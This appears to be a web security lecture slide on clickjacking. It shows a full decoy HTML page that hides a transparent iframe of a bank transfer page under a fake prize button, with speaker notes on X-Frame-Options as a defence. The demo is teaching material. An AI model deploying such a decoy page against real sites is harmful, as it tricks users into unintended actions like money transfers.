 ```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Clickjacking
---
```

<h1>Hijacking user's clicks</h1>

<Transform scale="1">

```html {all|15-18,21-24}
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Decoy web page</title>
</head>

<body>
  <div>
    <h1>You won!</h1>
    <p>Click DECOY BUTTON to get your prize!</p>
  </div>

  <div style="position: absolute; left: 25%; top: 35%;">
    <!-- never gets clicked since the iframe covers the entire page -->
    <button type="button" style="border-color: red; border-width: 2px; color: red;">
      DECOY BUTTON
    </button>
  </div>

  <!-- this iframe captures all clicks, since it covers the entire page -->
  <iframe style="opacity: 0;" width="680" height="480" scrolling="no"
    src="https://mybank/Transfer.aspx">
  </iframe>
</body>
</html>
```

<!-- A possibly legit decoy web page

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a `<frame>`, `<iframe>`, `<embed>` or `<object>`. Sites can use this to avoid @clickjacking (aka UI redressing)  attacks, by ensuring that their content is not embedded into other sites.

The issue here is that the target site has been loaded up within an iframe. One way to address this is via a little JavaScript in the banking website which works as follows. -->

</Transform>

<!--
Clickjacking (aka UI redressing) stands for click hijacking.

The HTML document rendered in the iframe (e.g. https://mybank/Transfer.aspx) could even be a legit website, but it's rendered in a decoy web page that tricks the user into clicking on a button/link that the user does not see.

- [Clickjacking (UI redressing)](https://portswigger.net/web-security/clickjacking)
- [Clickjack attack – the hidden threat right in front of you](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)

An HTTP header that start with an "X-" is not part of the HTTP spec. Such header is called custom header.
-->
